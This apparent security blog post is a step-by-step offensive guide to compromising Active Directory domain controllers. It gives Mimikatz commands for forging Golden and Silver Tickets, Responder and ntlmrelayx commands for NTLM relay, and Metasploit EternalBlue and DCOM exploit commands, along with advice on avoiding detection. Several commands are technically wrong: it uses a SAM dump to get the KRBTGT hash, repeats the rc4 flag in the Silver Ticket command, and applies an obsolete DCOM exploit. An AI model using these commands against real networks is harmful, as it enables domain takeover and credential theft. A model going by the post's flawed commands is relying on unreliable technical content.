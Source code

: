 ```yaml
---
title: "Abusing Trusted Domain Controllers: From Privilege Escalation to Domain Domination"
published: 2025-04-20
description: "Exploiting misconfigurations and vulnerabilities in trusted Domain Controllers to escalate privileges and compromise the entire domain."
image: '1.jpeg'
tags: []
category: 'Privilege Escalation'
draft: false
lang: 'ar-eng'
---
```


# Table of Contents

- [Abusing Trusted Domain Controller](#abusing-trusted-domain-controller)
  - [Key Concepts](#key-concepts)
  - [Methods](#methods)
    - [1. Golden Ticket Attack](#1-golden-ticket-attack)
    - [2. Silver Ticket Attack](#2-silver-ticket-attack)
    - [3. NTLM Relay Attack](#3-ntlm-relay-attack)
    - [4. Exploiting SMB and DCOM Vulnerabilities](#4-exploiting-smb-and-dcom-vulnerabilities)
  - [Important Notes](#important-notes)


# Abusing Trusted Domain Controller

A **Domain Controller (DC)** is the server responsible for managing Active Directory (AD) in a network. The **DC** stores and manages user credentials, permissions, and access control for all machines and users in the domain. **Abusing Trusted DC** refers to exploiting vulnerabilities or misconfigurations in the DC to escalate privileges, gain unauthorized access, or control the entire domain.

## Key Concepts

- **Active Directory (AD)**: A directory service that stores information about network resources (users, computers, etc.) and provides authentication and authorization.
- **Domain Admin / Enterprise Admin**: Users with the highest privileges in AD, who can control all aspects of the domain.
- **Kerberos**: A network authentication protocol used by AD to securely authenticate users and services.
- **NTLM**: A legacy authentication protocol used in Windows environments for authentication.
- **Trust Relationships**: DCs in a domain trust each other for authentication purposes. Exploiting this trust can allow attackers to escalate privileges.

## Methods

### 1. Golden Ticket Attack

- **Step 1: Obtain KRBTGT Hash**
  - The **KRBTGT account** is responsible for signing Kerberos tickets in Active Directory.
  - To create a Golden Ticket, you need to dump the **KRBTGT hash** from a compromised machine with high privileges (e.g., Domain Admin).
  - **Tool**: **Mimikatz**
  - **Command**: `mimikatz.exe "lsadump::sam" /inject`
    - This will dump the hashes from the local SAM (Security Accounts Manager) database.

- **Step 2: Generate the Golden Ticket**
  - Once you have the **KRBTGT hash**, you can generate a **Golden Ticket** that will allow you to authenticate as any user (typically a Domain Admin).
  - **Tool**: **Mimikatz**
  - **Command**:
  
  ```powershell
  mimikatz.exe "kerberos::golden /user:<username> /domain:<domain> /sid:<domain_sid> /rc4:<KRBTGT_hash>"
  ```
  
  - This command generates a Golden Ticket that can be used to impersonate any user in the domain, including Domain Admins.

- **Step 3: Pass the Golden Ticket**
  - Now that the Golden Ticket is generated, you can use it to authenticate to any service in the domain (e.g., SMB, RDP, etc.).
  - **Tool**: **Mimikatz**
  - **Command**:
  
  ```powershell
  mimikatz.exe "kerberos::ptt /ticket:<path_to_ticket_file>"
  ```

### 2. Silver Ticket Attack

- **Step 1: Obtain Service Account Hash**
  - To create a Silver Ticket, you need to compromise a service account hash (e.g., for SMB, SQL Server).
  - **Tool**: **Mimikatz**
  - **Command**: `mimikatz.exe "lsadump::sam" /inject`
    - This command will dump the hashes of service accounts.

- **Step 2: Generate the Silver Ticket**
  - Once you have the service account hash, you can generate a **Silver Ticket** for a specific service.
  - **Tool**: **Mimikatz**
  - **Command**:
  
  ```powershell
  mimikatz.exe "kerberos::golden /user:<username> /domain:<domain> /sid:<domain_sid> /rc4:<service_account_hash> /rc4:<target_service_name>"
  ```

- **Step 3: Pass the Silver Ticket**
  - Use the Silver Ticket to authenticate to the target service (e.g., SMB, RDP).
  - **Tool**: **Mimikatz**
  - **Command**:
  
  ```powershell
  mimikatz.exe "kerberos::ptt /ticket:<path_to_ticket_file>"
  ```

### 3. NTLM Relay Attack

- **Step 1: Set Up the NTLM Relay Attack**
  - **Tool**: **Responder** or **NTLMRelayX**
  - **Command**:
  
  ```bash
  python3 Responder.py -I <interface> -rd
  ```
  
  - This will start the **Responder** tool to capture NTLM authentication requests.

- **Step 2: Relay the NTLM Authentication**
  - When a victim machine tries to authenticate using NTLM, Responder will capture the request and relay it to a DC or another machine in the network.
  - **Tool**: **Responder** or **NTLMRelayX**
  - **Command**:
  
  ```bash
  ntlmrelayx.py -tf targets.txt -smb2support
  ```
  
  - This will relay the captured NTLM hash to a DC or other target machine.

- **Step 3: Gain Access to DC**
  - If successful, you will authenticate as the victim user, gaining access to the DC or other services in the domain.

### 4. Exploiting SMB and DCOM Vulnerabilities

- **Step 1: Exploit SMB Vulnerabilities (EternalBlue)**
  - **Tool**: **Metasploit** or **EternalBlue**
  - **Command**:
  
  ```bash
  msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue"
  ```
  
  - This will exploit the **EternalBlue** vulnerability in SMB to gain remote code execution on the DC.

- **Step 2: Exploit DCOM Vulnerabilities**
  - **Tool**: **Metasploit** or **DCOM Exploits**
  - **Command**:
  
  ```bash
  msfconsole -x "use exploit/windows/dcom/ms03_026_dcom"
  ```
  
  - This will exploit a vulnerability in **DCOM** to escalate privileges and potentially take control of the DC.

---

## Important Notes:

1. **KRBTGT Hash**: Always ensure you have access to a high-privileged account to dump the **KRBTGT hash**.
2. **Golden/Silver Tickets**: These tickets should be handled carefully and used only when necessary to avoid detection.
3. **NTLM Relay**: This attack is effective in environments where NTLM authentication is still used.
4. **Exploit SMB/DCOM**: Always check for unpatched systems that may be vulnerable to these types of attacks.

**`Happy Hacking Broo`**

---